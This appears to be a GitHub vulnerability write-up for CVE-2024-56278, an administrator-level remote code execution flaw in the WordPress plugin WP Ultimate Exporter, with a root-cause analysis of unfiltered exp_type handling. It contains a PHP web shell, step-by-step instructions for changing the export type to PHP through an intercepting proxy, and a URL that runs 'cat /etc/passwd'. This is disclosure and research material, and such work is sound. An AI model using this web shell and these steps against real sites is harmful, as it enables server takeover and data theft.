










# CVE-2024-56278

## 1️⃣ Component type

WordPress plugin

## 2️⃣ Component details

`Component name` WP Ultimate Exporter

`Vulnerable version` <= 2.9.1

`Component slug` wp-ultimate-exporter

`Component link` https://wordpress.org/plugins/wp-ultimate-exporter/

## 3️⃣ OWASP 2017: TOP 10

`Vulnerability class` A4: Insecure Design

`Vulnerability type` Remote Code Execution (RCE)

## 4️⃣ Pre-requisite

Administrator

## 5️⃣ **Vulnerability details**

### 👉 **Short description**

The WP Ultimate Exporter plugin is an addon for the WP Ultimate CSV Importer plugin. This plugin allows you to export all posts, products, orders, refunds, and user data in CSV, XLS, XML, and JSON formats. When exporting, files are created in the upload path, and the plugin only delivers the contents of those files to users.

In WP Ultimate Exporter plugin versions 2.9.1 and below, when requesting data export, if the file extension in the request data is set to PHP, a PHP file is created in the upload path. Therefore, if the contents of the created file contain PHP syntax, a Remote Code Execution (RCE) vulnerability occurs as the PHP syntax is executed when accessing that file.

### 👉 **How to reproduce (PoC)**

> ⚠️ Since the 'WP Ultimate Exporter' plugin is an addon for the 'WP Ultimate CSV Importer' plugin, both plugins need to be installed.
>

1. Create a new post using the code editor(shortcut key: `⇧ ⌥ ⌘ M`) with the following content:
    
    ```php
    <pre>
    	<?php
    	    if(isset($_GET['cmd']))
    	    {
    	        system($_GET['cmd']);
    	    }
    	?>
    </pre>
    ```
    
2. Navigate to the 'Export' tab of the WP Ultimate Exporter plugin. This can be accessed by clicking the 'Export' tab in the WP Ultimate CSV Importer plugin dashboard (`/wp-admin/admin.php?page=com.smackcoders.csvimporternew.menu`).
3. Launch a Proxy tool (e.g., BurpSuite) to intercept request packets, and proceed with the following steps with Intercept enabled.
4. Next, select 'Posts' from 'Select the module to Export Data' and proceed to the next step.



1. Then, in 'To export data based on the filters', set the following items and click the 'EXPORT' button.
    - `Export File Name` Enter ‘webshell’
    - `Advanced Settings` Select 'CSV'



1. At this point, a POST method request is sent to the `/wp-admin/admin-ajax.php` URL to export the data. Change the exp_type value in the request data from csv to php, then click Forward.



1. Enter `/wp-content/uploads/smack_uci_uploads/exports/webshell.php?cmd=cat /etc/passwd` in the browser address bar to display the contents of the /etc/passwd file on the server where WordPress is installed. This demonstrates the RCE vulnerability.



### 👉 **Additional information (optional)**

#### [Cause of Vulnerability]

When exporting data in the WP Ultimate Exporter plugin, the `parseData` function in the `/wp-content/plugins/wp-ultimate-exporter/exportExtensions/ExportExtension.php` file is called.

At this point, no filtering is performed on the request data `exp_type` that determines the export data format, and the value is directly inserted into the member variable `$this->exportType`.



Subsequently, the `proceedExport` function is called to save the data to a file. At this point, when initializing the variable `$file` that specifies the file storage path, the member variable `$this->exportType` is also used without any filtering.



Subsequently, the file path stored in the variable `$file` is passed as an argument to the `file_put_contents` function, and at this point, the file is saved with the extension specified in the request data `exp_type` being directly applied.



Therefore, when post data containing Web Shell code is saved as a PHP file and that file is accessed, a Remote Code Execution (RCE) vulnerability occurs as the PHP code gets executed.



#### [PoC Code Implementation and Execution]

1. Open the PoC code in an editor and enter the WordPress site address and administrator credentials.



1. Then enter the following command to execute the PoC code.
    
    > `Required module`  requests
    > 
    
    ```bash
    python poc.py
    ```
    
    

## 6️⃣ Exploit Demo

[](https://www.youtube.com/watch?v=U_tMexJ_XqM)

## 7️⃣ References

- [https://nvd.nist.gov/vuln/detail/CVE-2024-56278](https://nvd.nist.gov/vuln/detail/CVE-2024-56278)